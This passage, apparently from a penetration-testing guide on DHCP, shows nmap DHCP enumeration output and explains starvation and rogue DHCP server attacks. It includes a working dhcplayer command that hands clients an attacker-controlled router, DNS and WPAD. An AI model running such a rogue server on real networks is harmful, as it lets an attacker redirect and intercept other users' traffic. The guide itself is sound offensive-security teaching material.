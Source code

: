 ```bash
# DHCP options enumeration with nmap:
root@debian10:~$ nmap --script broadcast-dhcp-discover -e enp7s0
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-30 05:55 EST
Pre-scan script results:
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     IP Offered: 192.168.100.7
|     DHCP Message Type: DHCPOFFER
|     Subnet Mask: 255.255.255.0
|     Renewal Time Value: 4d00h00m00s
|     Rebinding Time Value: 7d00h00m00s
|     IP Address Lease Time: 8d00h00m00s
|     Server Identifier: 192.168.100.2
|     WPAD: http://isalocal.contoso.local:80/wpad.dat\x00
|     Router: 192.168.100.2
|     Name Server: 192.168.100.2
|     Domain Name Server: 192.168.100.2
|     Domain Name: contoso.local\x00
|_    NetBIOS Name Server: 192.168.100.2
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.52 seconds
```

Apart from enumeration, the DHCP protocol can also be abused to perform a couple of attacks:

* DHCP starvation/exhaustion
* Rogue DHCP server

Let's see how they work.

### **Rogue DHCP server**

Due to the descentralized nature of DHCP, any machine in the network can take the role of a DHCP server by answering to the client discovery/request messages. Therefore, an attacker could create a rogue DHCP server in order to set a custom configuration in the clients.

Between the options that are configured by a DHCP server are the following:

* Gateway/router
* DNS servers
* NetBIOS/WINS name servers
* WPAD

In this way, clients could be, among others things, misconfigured to send DNS request to a rogue DNS server, that could redirect them to fake computers or domains controlled by the attacker. In order to perform this kind of attack, it is possible to use tools like [yersinia](https://github.com/tomac/yersinia) or [dhcplayer](https://github.com/Zer1t0/dhcplayer#dhcp-server).

```bash
# (rogue) DHCP server with dhcplayer:
dhcplayer server -I eth2 --wpad http://here.contoso.local/wpad.dat -v --domain contoso.local          
INFO - IP pool: 192.168.100.1-192.168.100.254
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.100.255
INFO - DHCP: 192.168.100.44
INFO - DNS: [192.168.100.44]
INFO - Router: [192.168.100.44]
INFO - WPAD: http://here.contoso.local/wpad.dat
INFO - Domain: contoso.local
INFO - REQUEST from 52:54:00:5d:56:b9 (debian10)
INFO - Requested IP 192.168.100.145
INFO - ACK to 192.168.100.145 for 52:54:00:5d:56:b9
INFO - REQUEST from 52:54:00:76:87:bb (ws01-10)
INFO - Requested IP 192.168.100.160
INFO - ACK to 192.168.100.160 for 52:54:00:76:87:bb
```